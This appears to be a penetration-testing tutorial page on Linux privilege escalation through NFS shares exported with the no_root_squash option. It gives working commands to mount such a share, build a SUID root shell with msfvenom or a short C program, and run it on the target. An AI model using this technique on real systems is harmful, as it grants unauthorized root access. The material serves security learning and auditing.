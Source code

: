 # Network File Sharing (NFS)
***

Network File Sharing (NFS) is a protocol used for sharing files and directories across a network. Its configuration file is typically created during NFS server installation and is commonly found at the path /etc/exports. A key factor in understanding a potential privilege escalation vector with NFS is the "no_root_squash" option.

When an NFS server is configured with "no_root_squash," it means that NFS won't alter the permissions of files associated with the root user. Normally, NFS changes the root user's privileges to that of the "nfsnobody" user, stripping files of their root privileges. However, if "no_root_squash" is enabled on a writable share, it allows the creation of executables with the SUID (Set User ID) bit set, which can then be executed on the target system.

## Example
In the provided image, it's evident that the "/tmp" directory is configured with the "no_root_squash" flag. This flag indicates that the NFS share of this directory retains the ownership of files and folders by the root user.

### Attacker Machine
```sh
sudo su

# Enumerate mountable shares
showmount -e <targetIP>

# mount the share with no_root_squash to attacker machine
mkdir /tmp/nfs
mount -o rw,vers=2 <targetIP>:/tmp /tmp/nfs

# Msfvenom
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

# Set SUID and make it executable
chmod +xs /tmp/nfs/shell.elf
```

### Target Machine
```sh
# execute the shell.elf
/tmp/shell.elf
```


#### Notes:
- instead of using msfvenom, you can create shell.c
```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}
```
